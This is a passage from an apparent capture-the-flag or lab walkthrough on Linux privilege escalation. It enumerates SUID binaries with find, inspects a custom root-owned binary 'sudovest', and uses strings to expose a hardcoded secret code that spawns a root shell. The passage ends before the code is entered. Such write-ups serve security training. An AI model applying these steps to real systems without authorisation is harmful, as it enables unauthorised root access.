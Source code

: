 ### Step 4: SUID Binary Enumeration (Alternative Path)

If the sudo method wasn't available, we could also check for SUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```

**Output:**
```
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/local/bin/sudovest
```

**Interesting Finding:** A custom binary `/usr/local/bin/sudovest` with SUID bit set!

### Step 5: Custom Binary Analysis

Examine the custom SUID binary:

```bash
ls -la /usr/local/bin/sudovest
file /usr/local/bin/sudovest
```

**Output:**
```
-rwsr-xr-x 1 root root 16728 Oct 10 2025 /usr/local/bin/sudovest
/usr/local/bin/sudovest: ELF 64-bit LSB executable
```

Run the binary to see its behavior:

```bash
/usr/local/bin/sudovest
```

**Output:**
```
Welcome to Sudovest!
Enter the secret code: test
Invalid code!
```

### Step 6: Exploiting the Custom Binary

Use `strings` to analyze the binary:

```bash
strings /usr/local/bin/sudovest
```

**Key Findings:**
```
Welcome to Sudovest!
Enter the secret code:
v3st_s3cr3t_2025
Access granted! Spawning root shell...
/bin/bash
```
